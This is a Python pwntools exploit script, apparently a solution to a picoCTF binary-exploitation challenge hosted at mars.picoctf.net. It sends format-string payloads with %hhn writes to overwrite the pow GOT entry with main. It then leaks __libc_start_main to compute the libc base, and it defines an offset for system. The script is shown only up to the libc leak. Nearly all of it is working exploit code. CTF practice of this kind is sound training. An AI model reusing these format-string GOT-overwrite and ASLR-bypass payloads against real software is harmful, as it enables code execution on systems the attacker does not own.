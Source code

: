 ```python
#!/usr/bin/env python3

from pwn import *
from z3 import *
import time
import re
exe = ELF("chall")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.terminal = "kitty"

offset___libc_start_main_ret = 0x270b3
offset_system = 0x0000000000055410


def overflow(a,b):
    x = Int('x')

    solver = Solver()
    solver.add((x + a) % 0xff == b, x > 0)
    solver.check()
    return solver.model()[x].as_long()

def conn():
    if args.REMOTE:
        return remote("mars.picoctf.net", 31929)
    elif args.GDB:
        return gdb.debug(exe.path, gdbscript="c")
    else:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})


def main():
    r = conn()

    log.info("main address: " + hex(exe.symbols['main']))
    log.info("pow GOT address: " + hex(exe.got['pow']))
    log.info("strcspn GOT address: " + hex(exe.got['strcspn']))

    payload = b"11111111"
    payload += p64(exe.got['pow'])
    payload += p64(exe.got['pow']+1)
    r.sendline(payload)
    payload = b"1"
    payload += f"%{(exe.symbols['main'] & 0xff) - 0x27}x".encode()
    payload += b"%11$hhn"
    payload += f"%{(overflow(0x37, (exe.symbols['main'] >> 8) & 0xff)) + 1}x".encode()
    payload += b"%12$hhn"
    r.sendline(payload)
    r.recvuntil("Calculating for A: ")
    log.info("rewrote pow GOT to main")

    payload = b"1"
    payload += b"%213$lx"
    r.sendline(payload)
    r.sendline("1")
    r.recvuntil("Calculating for A: 1")
    libc_start_main = int(r.recvuntil(" "),16)
    log.info(f"leaked __libc_start_main: {hex(libc_start_main)}")
    libc_base = libc_start_main - offset___libc_start_main_ret
    log.info(f"leaked libc_base: {hex(libc_base)}")
```